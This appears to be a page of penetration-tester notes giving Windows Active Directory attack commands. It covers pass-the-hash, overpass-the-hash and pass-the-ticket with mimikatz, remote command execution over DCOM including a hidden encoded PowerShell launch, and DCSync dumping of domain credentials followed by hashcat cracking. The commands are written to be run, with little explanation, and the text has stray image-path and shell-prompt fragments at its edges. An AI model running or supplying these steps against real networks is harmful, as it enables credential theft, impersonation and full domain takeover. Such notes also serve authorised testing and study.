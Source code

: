 ```csharp
##### PASS THE HASH
wmiexec -hashes :$HASH Administrator@192.168.1.150

###### OVERPASS THE HASH (gain TGT to obtain TGS)
mimikatz # sekurlsa::pth /user:$USER /domain:dom.com /ntlm:$HASH /run:powershell
klist # no cached tickets
net use \\hostname # authenticate using interactive login to cache a ticket
klist # if there is one ticket, we converted NTLM hash into Kerberos TGT
.\PsExec.exe \\hostname cmd

###### PASS THE TICKET (takes advantage of the TGS which may be re-injected elsewhere on the network)
mimikatz #sekurlsa::tickets /export
dir *.kirbi
mimikatz # kerberos::ptt [0;12bd0]-...-user@cifs-web.kirbi # inject any TGS ticket belonging to the other user we want to authenticate
klist
ls \\web\folder # now if this user (and therefore the ticket) has access to the resourced, we should have granted access by impersonating that user

######## DCOM
https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
# Technique based on Microsoft Management Console (MMC) COM application that is employed for scripted automation of Windows systems
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgId("MMC20.Application.1", "$TARGET_IP"))
# Executing a command on the remote DCOM object
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e ...","7")
```
{% endcode %}

## DCSync (impersonate a DC)

[#dcsync](windows/persistence.md#dcsync "mention")

[#dcsync](windows/ad/#dcsync "mention")

{% code overflow="wrap" fullWidth="true" %}
```bash
# Possible by members of the Domain Admins, Enterprise Admins, and Administrators groups
# Or by a "custom" user with Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights
mimikatz # lsadump::dcsync /user:domain\pepe # provide the domain username for which we want to obtain credentials
lsadump::dcsync /user:corp\Administrator
# Copy NTLM hash and crack it
hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
# We could retrieve the Administrator hash
mimikatz # lsadump::dcsync /user:domain\Administrator
impacket-secretsdump (-just-dc-user pepe) domain.com/someadmin:"PassUnexplicable2023\!"@10.10.10.10
```
{% endcode %}


[192.168.50.73]: PS C:\Users\jen\Documents> whoami 